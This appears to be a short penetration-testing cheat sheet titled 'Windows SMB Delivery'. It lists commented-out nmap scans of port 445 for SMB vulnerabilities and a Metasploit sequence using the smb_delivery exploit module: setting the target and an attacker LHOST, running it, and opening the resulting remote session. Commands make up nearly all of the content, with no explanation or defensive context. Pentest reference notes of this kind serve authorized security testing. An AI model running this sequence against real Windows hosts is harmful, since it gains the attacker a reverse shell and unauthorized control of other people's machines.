 # Windows SMB Delivery

<!--
https://www.hackingarticles.in/smb-penetration-testing-port-445/
-->

## Glossary

- Server Message Block (SMB)

<!-- ##

```sh
nmap -p 445 -A <host>

nmap --script smb-vuln* -p 445 <host>
``` -->

## Usage

```sh
#
use exploit/windows/smb/smb_delivery

#
show targets
set target 0

#
show options
set LHOST <ip>

#
run

#
sessions
sessions -i 1

#
jobs

#
kill <id>
```

<!-- ##

There was a problem starting The user name or password is incorrect. -->
